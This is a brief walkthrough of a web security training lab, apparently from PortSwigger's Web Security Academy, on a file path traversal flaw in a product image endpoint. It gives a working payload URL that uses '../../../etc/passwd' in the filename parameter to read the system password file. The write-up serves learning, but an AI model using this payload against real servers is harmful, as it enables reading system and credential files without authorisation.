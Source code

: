 # Lab: File path traversal, simple case

>This lab contains a file path traversal vulnerability in the display of product images.

>To solve the lab, retrieve the contents of the /etc/passwd file.

### Solution
Right click the image of any product and open in a new tab

Notice that this path has a `filename` param, we can get the etc/passwd file with this simple path traversal payload:

`https://acdc1f051e88a915c0fd2b3100b70048.web-security-academy.net/image?filename=../../../etc/passwd`

Lab solved!